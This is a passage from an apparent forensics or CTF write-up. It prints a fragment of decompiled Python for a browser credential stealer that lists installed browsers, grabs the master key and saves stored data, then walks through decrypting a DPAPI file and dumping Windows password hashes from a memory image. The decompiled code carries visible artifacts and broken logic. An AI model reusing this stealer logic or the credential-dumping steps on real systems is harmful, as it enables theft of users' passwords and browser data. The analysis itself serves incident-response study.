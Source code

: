 ```python=
    return decrypt_my_data

def get_data(path: str, profile: str, key, type_of_data):
    db_file = f"{path}\\{profile}{type_of_data['file']}"
    if not os.path.exists(db_file):
        pass  # postinserted
    return None

def convert_chrome_time(chrome_time):
    return (datetime(1601, 1, 1) + timedelta(microseconds=chrome_time)).strftime('%d/%m/%Y %H:%M:%S')

def installed_browsers():
    available = []
    for x in browsers.keys():
        if os.path.exists(browsers[x] + '\\Local State'):
            pass  # postinserted
        else:  # inserted
            available.append(x)
    return available
if __name__ == '__main__':
    available_browsers = installed_browsers()
    for browser in available_browsers:
        browser_path = browsers[browser]
        master_key = get_master_key(browser_path)
        print(f'Getting Stored Details from {browser}')
        for data_type_name, data_type in data_queries.items():
            print(f"\t [!] Getting {data_type_name.replace('_', ' ').capitalize()}")
            notdefault = ['opera-gx']
            profile = 'Default'
            profile = '' if browser in notdefault else ''
            data = get_data(browser_path, profile, master_key, data_type)
            save_results(browser, data_type_name, data)
            print('\t------\n')
```

There we go, we got a stealer!. We've got our IV and encrypted data here, then what is the encrypted.bin ?
Let's analyze the `encrypted.bin` header:
![image](https://hackmd.io/_uploads/ryxKk47Lee.png)
Searching Google, I found out that `encrypted.bin` is a DPAPI encrypted file by its signature header:
![image](https://hackmd.io/_uploads/H15hJVQIle.png)
## Decrypting DPAPI
Using Nirsoft tools to decrypt - https://www.nirsoft.net/utils/dpapi_data_decryptor.html
![image](https://hackmd.io/_uploads/SyLVqEXIeg.png)

The decryption requires the user's `Windows login password`, `Protect` folder and `Registry Hive folder` (I think registry hive folder is just for getting the user's password since we can dump the password from just SAM, SYSTEM hive, SID and masterkey (from Protect folder)).
Using `windows.hashdump` plugins on the RAM dump, I successfully retrieved the hash.
